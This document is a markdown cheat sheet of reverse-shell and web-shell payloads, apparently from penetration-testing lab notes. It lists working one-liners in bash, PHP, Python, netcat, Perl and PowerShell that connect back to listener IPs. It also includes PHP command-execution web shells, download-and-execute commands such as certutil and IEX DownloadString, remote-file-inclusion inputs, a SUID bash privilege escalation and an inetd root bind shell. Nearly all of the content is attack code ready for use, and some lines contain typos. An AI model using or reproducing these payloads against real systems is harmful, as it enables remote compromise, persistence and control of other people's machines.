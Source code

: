 ## RevShells

#### BASH
```bash
bash -i >& /dev/tcp/192.168.45.178/60001 0>&1

echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/pwned\nchmod 4777 /tmp/pwned' > full-checkup.sh
chmod +x full-checkup.sh
/tmp/pwned -p
```
#### PHP

```bash
php -r '$sock=fsockopen("192.168.45.178", 60001);exec("/bin/sh -i <&3 >&3 2>&3");'

cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
python3 -m http.server
nc -nlvp 443
<?php system("wget http://192.168.45.178/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

 &cmd=whoami or ?cmd=whoami
<?php shell_exec($_GET["cmd"]);?>
<?php system($_GET["cmd"]);?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

echo '<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>' > shell.php
shell.php&cmd=
```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",22));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp 22
or

192.168.49.140

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.163 80 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 80 >/tmp/f

busybox nc $ip 5000 -e /bin/bash

certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80
```

#### Perl

```bash
perl -e 'use Socket:$i="192.168.45.163";$0=443;socket(S,PF INET,SOCK STREAM, getprotobyname("tcp")); if(connect (S, sockaddr_in($p,inet_aton ($i)))) {open(STDIN, ">&S") ; open (STDOUT, ">&S") ;open (STDERR, ">&S") ;exec("/bin/sh -i"T;};'
```

#### CMD

```bash
'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.49.140:8000/rev.ps1") | powershell 
-noprofile'
````

General:

- “Curl ip/reverse.sh | bash” not a bad idea.
- wget'ing to tmp, chmod +x, then bash -c /tmp/pwn.sh

#### PsExec

If you have creds and can't get psexec onto the box, try it locally to get a shell

```bash
proxychains psexec.py USERC:USERCishere@10.11.1.50 cmd.exe
```

#### Bypass Python 2 input()

```bash
__import__('os').system('/bin/bash -p')
```

#### Use ConPty Windows Shell

Make sure to copy raw file whenever copy-pasting from GitHub.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.

```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

```bash
cat conpty.php
system("powershell IEX(IWR http://10.10.14.8:8000/conpty.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 80");
```

#### Inet Bind Shell ??

```bash
"echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
nc -nv $ip 31337
```